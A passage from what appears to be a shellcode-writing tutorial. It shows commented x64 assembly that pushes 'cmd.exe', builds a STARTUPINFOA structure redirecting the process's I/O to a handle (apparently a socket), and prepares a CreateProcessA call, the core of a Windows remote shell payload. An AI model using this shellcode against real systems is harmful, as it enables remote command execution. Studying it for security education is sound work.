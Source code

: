 ```
PS C:\Users\s4dbrd\Desktop> python .\encodeString.py cmd.exe
mov rax, 0x6578652e646d63
push rax;
```

This encoded value is integrated into the shellcode as follows:

```
# Push cmd.exe string to stack
" mov rax, 0x6578652e646d63; "   # Load the hexadecimal representation of 'cmd.exe' into RAX
" push rax; "                    # Push 'cmd.exe' onto the stack
" mov rcx, rsp; "                # Set RCX to point to 'cmd.exe' on the stack, which will be lpApplicationName
```

Next, the implementation of the `STARTUPINFOA` structure, as previously explained, will be incorporated into the shellcode.

```
# STARTUPINFOA Structure Setup
" push r13;"                        # Push the handle for hStdError onto the stack
" push r13;"                        # Push the handle for hStdOutput onto the stack
" push r13;"                        # Push the handle for hStdInput onto the stack
" xor rax, rax; "                   # Zero out RAX to use for multiple NULL entries
" push ax;"                         # Push NULL for non critical member
" push rax;"                        # Push NULL for non critical member
" push rax;"                        # Push NULL for non critical member
" mov rax, 0x100;"                  # Set RAX to 0x100, indicating the STARTF_USESTDHANDLES flag in dwFlags
" push ax;"                         # Push 0x100 (STARTF_USESTDHANDLES) into dwFlags
" xor rax, rax; "                   # Zero out RAX again to push more NULL entries
" push ax;"                         # Push NULL for non critical member
" push ax;"                         # Push NULL for non critical member
" push rax;"                        # Push NULL for non critical member
" push rax;"                        # Push NULL for non critical member
" push rax; "                       # Push NULL for non critical member
" push rax; "                       # Push NULL for non critical member
" push rax; "                       # Push NULL for non critical member
" push rax; "                       # Push NULL for non critical member
" mov rax, 0x68;"                   # Set RAX to 0x68, the byte size of the STARTUPINFOA structure (cb)
" push rax;"                        # Push 0x68, the size of the STARTUPINFOA structure
" mov rdi, rsp;"                    # Move the stack pointer to RDI, pointing to the STARTUPINFOA structure
```

Once the structure is set up, the `CreateProcessA` function can be called to execute `cmd.exe`.

```
" mov rax, rsp;"                # Capture the current stack pointer in RAX
" sub rax, 0x500;"              # Adjust RAX to point to a new space in the stack for PROCESS_INFORMATION
" push rax; "                   # Push the address for PROCESS_INFORMATION structure
" push rdi; "                   # Push the address of the STARTUPINFOA structure
" xor rax, rax; "               # Zero out RAX to use as NULL for several parameters
" push rax; "                   # Set lpCurrentDirectory to NULL
" push rax; "                   # Set lpEnvironment to NULL
" push rax;"                    # Placeholder push for alignment or further use
" inc rax;  "                   # Set RAX to 1 (used for bInheritHandles)
" push rax; "                   # Push bInheritHandles with value 1 (inherit handles)
" xor rax, rax; "               # Zero out RAX again for further NULL uses
" push rax;"                    # Push NULL for dwCreationFlags
" push rax;"                    # Additional push for alignment or further parameter setup
" push rax;"                    # Additional push for alignment or further parameter setup
" push rax; "                   # Ensure RAX (NULL) is pushed for dwCreationFlags
" mov r8, rax; "                # Set lpThreadAttributes to NULL
" mov r9, rax; "                # Set lpProcessAttributes to NULL
```